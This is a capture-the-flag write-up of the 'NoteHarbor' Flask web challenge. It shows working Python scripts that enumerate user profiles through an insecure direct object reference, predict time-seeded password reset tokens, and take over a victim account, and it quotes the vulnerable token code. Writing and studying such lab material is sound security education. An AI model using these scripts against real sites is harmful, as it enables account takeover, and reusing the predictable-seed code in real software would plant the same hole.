 ```yaml
---
title: NoteHarbor Web Challenge Writeup Cyber Talents 2023
date: 2023-10-22 1:30:00 +0200
categories:
  - ctf
  - cybert_talents
tags:
  - ctf
  - cybert_talents
  - web_applications
---
```


I'm thrilled to share that our outstanding team, `creeprs_249`, has reached an impressive milestone! 🎉 We secured the 50th position among around 450 teams hailing from Arabian countries in the prestigious CyberTalents Arab Regional CTF 2023. This competition brought together top talent from across the Arabian region, and our team's dedication and skills allowed us to stand out and achieve this significant recognition. It's a testament to our hard work, teamwork, and commitment to the field of cybersecurity. We're proud of what we've accomplished and excited about what lies ahead in this ever-evolving and exciting field.

I had the privilege of leading the web challenges, and I'm eagerly anticipating the opportunity to share my insights with all of you. I'm sharing a comprehensive write-up detailing how our team successfully tackled the NoteHarbor medium challenge.

##  Description

Mariel Calderwood: Hi I can't login to my account can you help me?

## Source code:
https://example.com/web/NoteHarbor.zip

## Going Through 

I started going through the web application. It is a simple note-taking app with many functionalities, and the most interesting ones are: 
`/register`
`/login` 
`/profile/{id}`
`/forgot_password/{token}`
`/add_note/{id}`
`/update_note/{id}` 
`/delete_note/{id}`

Then I reviewed the source code. It uses Python's Flask library and SQLite to handle the database. So, I took into consideration the following vulnerabilities as a starting point:

- SQL injection
- Server-side template injection (SSTI)
- Insecure direct object reference
- Some broken access control or authentication issues

I started sending some SQL queries and characters but couldn't find any indication of SQL injection. So, I just created a normal account.

```http
POST /register HTTP/1.1
Host: wcomol2z7qrsm350m73p9p6tqzqwndvjympxievy-web.cybertalentslabs.com
Content-Length: 64
Origin: http://wcomol2z7qrsm350m73p9p6tqzqwndvjympxievy-web.cybertalentslabs.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://wcomol2z7qrsm350m73p9p6tqzqwndvjympxievy-web.cybertalentslabs.com/register
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

email=skullhat%40google.com&username=skullhat&password=askullhat
```
Then I logged into my account, created, edited, and then deleted a note. I went to my profile and saw that my ID is 801.

![Image](/assets/img/uploads/20231022060447.png)

So I tried decreasing it, and it worked! I was able to see the profiles of other users, which included the secret key used in creating the password reset token, as we can see in the source code.

![Image](/assets/img/uploads/20231022060600.png)

Now, we need to get the email of the account in the description of the challenge, "Mariel Calderwood." So, I wrote this simple script to grep it. It iterates through a range of IDs and then checks if the text of the response (`r.text`) contains the string "Mariel Calderwood."

```python
import requests 
import urllib3

urllib3.disable_warnings()

url = "http://wcomol2z7qrsm350m73p9p6tqzqwndvjympxievy-web.cybertalentslabs.com/profile/"
proxies = {'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'}
for i in range(0,801):
    r = requests.get(url+str(i),proxies=proxies, cookies={'session':'eyJ1c2VyX2lkIjo4MDF9.ZTN64g.QaqBBC1W-waCzntgZgEwcS4IlHc'})
    if "Mariel Calderwood" in r.text:
        print("Found!")
        print(url+str(i))

```

![Image](/assets/img/uploads/20231021093655.png)

![Image](/assets/img/uploads/20231022062322.png)

The profile of ID 262 contains the following information:

**Email**: [mcalderwood79@storify.com](mailto:mcalderwood79@storify.com) 
**Username**: Mariel Calderwood 
**Secret**: CH5CSTBK6QH6N8J77VNR8KN44RAHXNP2

I returned to the source code to understand how the token is created:

```python
#snip
def generate_reset_token(user, token_length=32):
    letters_and_digits = string.ascii_uppercase + string.digits

    current_time_minutes = int(datetime.now().timestamp() // 60)
    seed = user.secret + str(current_time_minutes)

    random.seed(seed)
    reset_token = ''.join(random.choice(letters_and_digits) for _ in range(token_length))

    return reset_token
#snip
@app.route('/reset_password/<reset_token>', methods=['GET', 'POST'])
def reset_password(reset_token):
    user = User.query.filter_by(reset_token=reset_token).first()
    if user and user.token_expiration > datetime.now():
        if request.method == 'POST':
            new_password = request.form['new_password']
            hashed_password = bcrypt.generate_password_hash(new_password).decode('utf-8')
            user.password = hashed_password
            user.reset_token = None
            user.token_expiration = None
            db.session.commit()
            flash('Password reset successfully. You can now log in with your new password.', 'success')
            return redirect(url_for('login'))
        return render_template('reset_password.html')
    flash('Invalid or expired reset token.', 'danger')
    return redirect(url_for('forgot_password'))
#snip
```

The function `generate_reset_token()` generates a password reset token for a user by combining their secret key with the current time (in minutes) to seed a random number generator, which is then used to create a token of the specified length using uppercase letters and digits.

  
This route handles the reset password process, where it verifies the reset token, checks if it's valid and not expired, and if the request method is POST, it updates the user's password and clears the reset token; otherwise, it renders the reset password page, and if the token is invalid or expired, it provides an error message and redirects to the forgot password page.

This code appears to generate a 32-character token by concatenating the user's secret key with the current time. It's worth noting that `int(datetime.now().timestamp() // 60)` reduces the randomness of the token, making it typically the same if created in the same minute. Additionally, the use of `random.seed()` and `random.choice()` further reduces the likelihood of guessing the token using a script. To learn more about these functions, you can check [this Stack Overflow thread](https://stackoverflow.com/questions/2257441/random-string-generation-with-upper-case-letters-and-digits).

Given that the token expires in 10 minutes and with knowledge of the secret key and the user's email, I've written this script based on the original code:

```python
import requests
import random
import string
from datetime import datetime
import schedule 
# user.token_expiration = datetime.now() + timedelta(minutes=10)
secret = 'CH5CSTBK6QH6N8J77VNR8KN44RAHXNP2'
url = 'http://wcomol2z7qrsm350m73p9p6tqzqwndvjympxievy-web.cybertalentslabs.com/reset_password/'
proxies = {'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'}
token_length=32
letters_and_digits = string.ascii_uppercase + string.digits

def send_request():
    print("Start send_thousand_requests")
    current_time_minutes = int(datetime.now().timestamp() // 60)
    seed = secret + str(current_time_minutes)
    random.seed(seed)
    reset_token = ''.join(random.choice(letters_and_digits) for _ in range(token_length))
    r = requests.get(url+reset_token,proxies=proxies, allow_redirects=False)
    if "Invalid or expired reset token." in r.text:
        return
    else:
        print("Found the token: " +url+reset_token)
        x = requests.post(url+reset_token, data={'new_password':'Asd@1234'},proxies=proxies)
        if "Password reset successfully. You can now log in with your new password" in x.text:
            print("Now you can login using:\n" + "Email: mcalderwood79@storify.com\nPassword: Asd@1234" )

def regenrate_token():
    url ="http://wcomol2z7qrsm350m73p9p6tqzqwndvjympxievy-web.cybertalentslabs.com/forgot_password"
    r = requests.post(url, data={'email':'mcalderwood79@storify.com'},proxies=proxies)
    print('Passwor reset token was reset!')
    
regenrate_token()
send_request()
```

It includes a function, `send_request()`, responsible for generating a password reset token, making a request to a specified URL with the token, and verifying a successful password reset while handling token expiration and login information provision upon success. Another function, `regenerate_token()`, is defined as initiating a request for a password token reset. The script concludes by executing `regenerate_token()` to reset the password token and invoking `send_request()` to search for a valid token and perform a password reset.

![Image](/assets/img/uploads/20231022062127.png)

I used the credentials and woop woop! I successfully obtained the flag!

![Image](/assets/img/uploads/20231022061847.png)

  
When discovering the flag, this joke emerges: "Why did the PRNG developer consistently maintain a poker face? Because they mastered the art of concealing their 'random' expressions!" 🤣

